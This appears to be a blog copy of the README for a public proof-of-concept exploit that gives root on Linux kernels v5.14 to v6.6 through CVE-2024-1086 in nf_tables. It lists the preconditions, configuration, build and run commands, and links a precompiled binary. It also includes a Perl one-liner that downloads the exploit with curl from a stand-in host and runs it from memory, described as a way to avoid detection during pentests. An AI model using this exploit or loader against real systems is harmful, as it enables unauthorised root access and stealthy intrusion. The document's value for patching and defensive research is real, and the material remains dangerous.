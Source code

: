 ```yaml
---
title: CVE-2024-1086
date: 2024-03-31T12:18:48+08:00
draft: False
featuredImage: https://images.unsplash.com/photo-1710743387063-f8f67e2abf81?ixid=M3w0NjAwMjJ8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MTE4NTg1ODd8&ixlib=rb-4.0.3
featuredImagePreview: https://images.unsplash.com/photo-1710743387063-f8f67e2abf81?ixid=M3w0NjAwMjJ8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MTE4NTg1ODd8&ixlib=rb-4.0.3
---
```


# [Notselwyn/CVE-2024-1086](https://github.com/Notselwyn/CVE-2024-1086)

# CVE-2024-1086

Universal local privilege escalation Proof-of-Concept exploit for [CVE-2024-1086](https://nvd.nist.gov/vuln/detail/CVE-2024-1086), working on most Linux kernels between v5.14 and v6.6, including Debian, Ubuntu, and KernelCTF. The success rate is 99.4% in KernelCTF images.

https://github.com/Notselwyn/CVE-2024-1086/assets/68616630/a3d43951-94ab-4c09-a14b-07b81f89b3de

## Blogpost / Write-up

A full write-up of the exploit - including background information and loads of useful diagrams - can be found in the [Flipping Pages blogpost](https://pwning.tech/nftables/).


## Affected versions

The exploit affects versions from (including) v5.14 to (including) v6.6, excluding patched branches v5.15.149>, v6.1.76>, v6.6.15>. The patch for these versions were released in feb 2024. The underlying vulnerability affects all versions (excluding patched stable branches) from v3.15 to v6.8-rc1.

**Caveats:**
- The exploit does not work v6.4> kernels with kconfig `CONFIG_INIT_ON_ALLOC_DEFAULT_ON=y` (including Ubuntu v6.5)
- The exploits requires user namespaces (kconfig `CONFIG_USER_NS=y`), that those user namespaces are unprivileged (sh command `sysctl kernel.unprivileged_userns_clone` = 1), and that nf_tables is enabled (kconfig `CONFIG_NF_TABLES=y`). By default, these are all enabled on Debian, Ubuntu, and KernelCTF. Other distro's have not been tested, but may work as well.
- The exploit may be unstable on systems with a lot of network activity
	- Systems with WiFi adapter, when surrounded by high-usage WiFi networks, will be very unstable. 
	- On test devices, please turn off WiFi adapters through BIOS.

## Usage

### Configuration

The default values should work out of the box on Debian, Ubuntu, and KernelCTF with a local shell. On non-tested setups/distros, please make sure the kconfig values match with the target kernel. These can be specified in [`src/config.h`](/src/config.h). If you are running the exploit on a machine with more than 32GiB physical memory, make sure to increase `CONFIG_PHYS_MEM`.
If you are running the exploit over SSH (into the test machine) or a reverse shell, you may want to toggle `CONFIG_REDIRECT_LOG` to `1` to avoid unnecessary network activity.

### Building

If this is impractical for you, there is an [compiled x64 binary](https://github.com/Notselwyn/CVE-2024-1086/releases/download/v1.0.0/exploit) with the default config.

```bash
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```

Binary: `CVE-2024-1086/exploit`


### Running

Running the exploit is just as trivial:

```bash
./exploit
```

Fileless execution is also supported, in case of pentest situations where detections need to be avoided. However, Perl needs to be installed on the target:
```bash
perl -e '
  require qw/syscall.ph/;

  my $fd = syscall(SYS_memfd_create(), $fn, 0);
  system "curl https://example.com/exploit -s >&$fd";
  exec {"/proc/$$/fd/$fd"} "memfd";
'
```

## Disclaimer

The programs and scripts ("programs") in this software directory/folder/repository ("repository") are published, developed and distributed for educational/research purposes only. I ("the creator") do not condone any malicious or illegal usage of the programs in this repository, as the intend is sharing research and not doing illegal activities with it. I am not legally responsible for anything you do with the programs in this repository.
